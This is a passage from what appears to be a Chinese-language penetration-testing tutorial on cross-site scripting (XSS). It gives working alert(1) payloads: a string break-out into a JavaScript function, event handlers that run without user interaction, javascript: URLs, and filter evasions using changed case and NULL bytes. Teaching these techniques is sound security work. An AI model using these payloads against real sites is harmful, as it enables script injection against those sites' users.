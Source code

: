 当我们利用上一种方式也是可以触发弹窗，但是每次都需要去点一下文本框才能触发，在实战场景中比较鸡肋

![sdf](https://www.loongten.com/2019/12/23/pentest-learn-xss/12.png)

Payload

```javascript
'};alert(1); function a(){//
```

![sdf](https://www.loongten.com/2019/12/23/pentest-learn-xss/13.png)

使用这个payload，可以直接弹窗

我们首先用 `'`去截断了前面的字符串，然后拼接完整的函数，中间插入我们需要执行的代码:`alert(1);` 完成了这一步之后，因为源函数后面还有个`}`，我们需要自己写个函数去完善掉 `function a(){//` ，并且把最后的单引号和分号结束掉，那么在页面一打开我们的函数就会被执行。

#### 脚本标签

**事件处理器**

有大量事件处理器可与各种标签结合使用，用于执行脚本。

一些示例，可在不需要任何用户交互的情况下执行脚本：

```javascript
<style onreadystatechange=alert(1)></style>
<iframe onreadystatechange=alert(1)></iframe>
<object onerror=alert(1)></object>
<img type=image src=valid.gif onreadystatechange=alert(1)>
<input type=image src=valid.gif onreadystatechange=alert(1)>
<body onbeforeactivate=alert(1)></body>
<video src=1 onerror=alert(1)></video>
<audio src=1 onerror=alert(1)>
```

**脚本伪协议**

脚本伪协议可用在任何位置，以在需要URL的属性中执行行内脚本。

```javascript
<object data=javascript:alert(1)></object>
<iframe src=javascript:alert(1)></iframe>
<event-source src=javascript:alert(1)></event-source>
```

#### 避开过滤:HTML

**标签名称**

改变字符大小写

```javascript
<iMg onerror=alert(1) src=a>
```

插入NULL字节

```javascript
<[%00]img onerror=alert(1) src=a>
```
